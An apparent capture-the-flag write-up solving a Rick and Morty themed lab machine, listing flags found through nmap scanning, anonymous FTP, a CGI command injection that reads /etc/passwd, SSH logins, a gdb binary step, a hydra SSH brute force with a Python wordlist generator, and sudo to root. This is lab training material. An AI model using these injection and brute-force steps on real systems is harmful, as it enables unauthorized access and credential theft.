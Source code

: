 +++
title = "write up de wil"
weight = 0
aliases = ["activités/ateliers-pentest/pentest01/wil"]
[extra]
author = "wil"
points = 130
translations = [
    "activities/workshops/pentest/pentest01/wil.en.md"
]
+++

``` sh
nmap 192.168.1.17 -O -sV -p- -T5
```

----------

nmap -> port ftp open anonymous = **FLAG{Whoa this is unexpected} - 10 Points**

----------

nmap port 13337 -> **FLAG{TheyFoundMyBackDoorMorty}-10Points**

----------

dirb port 80 == /password/ == **FLAG{Yeah d- just don't do it.} - 10 Points**

----------

admin panel on port 9090 == **FLAG{There is no Zeus, in your face!} - 10 Points**

----------

``` sh
telnet 192.168.1.17 60000
```

-> **FLAG{Flip the pickle Morty!} - 10 Points**

----------

robots.txt == `http://host/cgi-bin/tracertool.cgi?ip= |` (**cat** is changed so **more**)

``` sh
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```

No login ssh so trying with source-code hint (*winter* + *Summer* as ftp
credential -> **FLAG{Get off the high road Summer!} - 10 Points**

----------

Connecting via ssh port 22222/tcp open ssh OpenSSH 7.5 (protocol 2.0) with
Summer/winter. Head sur l'image pour voir un password unzip le fichier flag
avec ce password (Meeseek) -> **FLAG{131333} - 20 points**

----------

New tips safe binary in /home/RickSanchez/RICKS_SAFE so scp+gdb+drop euid via
cp /tmp == 131333 needed argv == decrypt:
**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

Depuis le hint qui indique qu'on va devoir bf l'user RickSanchez j'ai fais
une wordlist via un script python et donc ->

``` sh
hydra -l RickSanchez -P wordlist ssh://192.168.1.17 -s 22222
```

->
**P7Curtains**

----------

``` sh
sudo su
```

as RickSanchez . flag root ->
**FLAG{Ionic Defibrillator} - 30 points**

----------

``` sh
Script py :
import string

mystring = list(string.ascii_uppercase)
nw = ["The", "Flesh", "Curtains"]

for w in nw:
    for i in range(100):
        for l in mystring:
            print("%s%s%s"% (l,i,w))
```
